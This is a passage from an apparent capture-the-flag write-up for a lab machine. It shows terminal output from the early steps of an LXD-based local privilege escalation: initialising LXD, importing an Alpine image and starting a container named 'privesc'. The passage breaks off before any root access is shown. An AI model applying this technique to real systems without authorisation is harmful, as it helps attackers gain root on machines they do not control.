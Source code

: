### Getting a shell

[https://shenaniganslabs.io/2019/05/21/LXD-LPE.html](https://shenaniganslabs.io/2019/05/21/LXD-LPE.html)

```text
ash@tabby:/dev/shm$ lxd
Error: This must be run as root
ash@tabby:/dev/shm$ sudo lxd init
sudo: unable to open /run/sudo/ts/ash: Read-only file system
[sudo] password for ash: 
Sorry, try again.
[sudo] password for ash: 
ash is not in the sudoers file.  This incident will be reported.
ash@tabby:/dev/shm$ lxd init
Would you like to use LXD clustering? (yes/no) [default=no]: 
Do you want to configure a new storage pool? (yes/no) [default=yes]: yes
Name of the new storage pool [default=default]: test
Name of the storage backend to use (btrfs, dir, lvm, ceph) [default=btrfs]: dir
Would you like to connect to a MAAS server? (yes/no) [default=no]: 
Would you like to create a new local network bridge? (yes/no) [default=yes]: 
What should the new bridge be called? [default=lxdbr0]: 
What IPv4 address should be used? (CIDR subnet notation, “auto” or “none”) [default=auto]: 
What IPv6 address should be used? (CIDR subnet notation, “auto” or “none”) [default=auto]: 
Would you like LXD to be available over the network? (yes/no) [default=no]: 
Would you like stale cached images to be updated automatically? (yes/no) [default=yes] 
Would you like a YAML "lxd init" preseed to be printed? (yes/no) [default=no]: 
ash@tabby:/dev/shm$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
2: ens192: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:b9:0e:0a brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.194/24 brd 10.10.10.255 scope global ens192
       valid_lft forever preferred_lft forever
3: lxdbr0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UNKNOWN group default qlen 1000
    link/ether d6:e6:3d:b8:e9:eb brd ff:ff:ff:ff:ff:ff
    inet 10.192.134.1/24 scope global lxdbr0
       valid_lft forever preferred_lft forever
    inet6 fd42:a03c:fcd2:592f::1/64 scope global 
       valid_lft forever preferred_lft forever
    inet6 fe80::d4e6:3dff:feb8:e9eb/64 scope link 
       valid_lft forever preferred_lft forever
```

```text
ash@tabby:~$ lxc image import ./alpine-v3.12-x86_64-20201012_2205.tar.gz --alias test
Error: Image with same fingerprint already exists

ash@tabby:/dev/shm$ lxc ls
+---------+---------+------+------+-----------+-----------+
|  NAME   |  STATE  | IPV4 | IPV6 |   TYPE    | SNAPSHOTS |
+---------+---------+------+------+-----------+-----------+
| privesc | STOPPED |      |      | CONTAINER | 0         |
+---------+---------+------+------+-----------+-----------+
ash@tabby:~$ lxc start privesc
ash@tabby:~$ lxc list
+-------------+---------+----------------------+-----------------------------------------------+-----------+-----------+
|    NAME     |  STATE  |         IPV4         |                     IPV6                      |   TYPE    | SNAPSHOTS |
+-------------+---------+----------------------+-----------------------------------------------+-----------+-----------+
```